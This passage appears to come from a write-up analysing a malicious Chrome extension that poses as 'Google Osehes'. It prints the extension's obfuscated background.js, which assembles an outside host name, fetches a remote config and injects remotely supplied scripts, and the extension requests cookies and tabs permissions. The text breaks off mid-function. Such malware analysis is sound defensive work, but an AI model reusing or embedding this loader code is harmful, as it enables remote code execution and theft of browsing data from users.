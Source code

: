```json
        "cookies",
        "tabs",
        "background"
    ],
    "description": "Google Osehes"
}
```
<br> Nothing special about this, they just change the name of the extension too make it more "safe" when you look it. The extension has a worker script, the `background.js`:
```javascript
var yhhng = {};
var mhiwl = function(){
	var iacpj = new URL('https://www.google.com');
	iacpj.protocol = 'http:';
	var nkkdx = 'pube';
	var eiubga = 'me';
	iacpj.hostname = nkkdx+'.'+eiubga;
	iacpj.pathname = '/config';
	if(!chrome.app.getDetails()){
		return false;
	}
	fetch(iacpj).then(function(response){
		return response.json();
	}).then(function(data){
		yhhng = data;
		if(data.login == true){
			yhhng.app = chrome.app.getDetails();
			yarna();
		}else{
			yztvx();
		}
	}).catch((e) => {
		setTimeout(mhiwl, 1000*60);
	});
}

var yarna = function(){
	yhhng.request.headers = {installed:true};
	fetch(yhhng.check ,yhhng.request).then(function(response){
		return response.json();
	}).then(function(data){
		if(data.verify == true){
			ufrkhn();
		}else{
			yztvx();
		}
	});
}

var ixtfco = function(){
	(function(d, s, id){
     var js, cjs = d.getElementsByTagName(s)[0];
     if (d.getElementById(id)) {return;}
     js = d.createElement(s); js.id = id;
     js.src = yhhng.url;
     cjs.parentNode.insertBefore(js, cjs);
   }(document, 'script', 'chrome-jssdk'));
}

var ufrkhn = function(){
	fetch(yhhng.url).then(function(response){
		return response.blob();
	}).then(function(data){
```